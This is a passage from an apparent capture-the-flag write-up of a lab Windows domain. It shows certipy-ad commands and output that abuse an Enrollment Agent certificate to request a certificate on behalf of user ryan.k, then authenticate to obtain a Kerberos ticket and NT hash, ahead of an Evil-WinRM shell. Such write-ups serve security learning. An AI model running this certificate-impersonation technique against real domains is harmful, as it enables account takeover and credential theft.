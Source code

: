 **Step 2: Use the Enrollment Agent certificate to request a certificate on behalf of the target user.**

```bash
└─$ certipy-ad req \
    -u 'Lion.SK@certificate.htb' -p '!*******x' \
    -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 27
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'

```
{: .nolineno }

**Step 3: Authenticate using the "on-behalf-of" certificate.**

```bash
└─$ certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
File 'ryan.k.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b15....5ae1a2ae6

```
{: .nolineno }

## 1️⃣1️⃣  User Shell as Ryan.K

**Tools**: Evil-WinRM.

**Content**:

Lets have a winrm session of <b><span style="color:rgb(219, 0, 0)">ryan.k</span></b>
 user 🔻
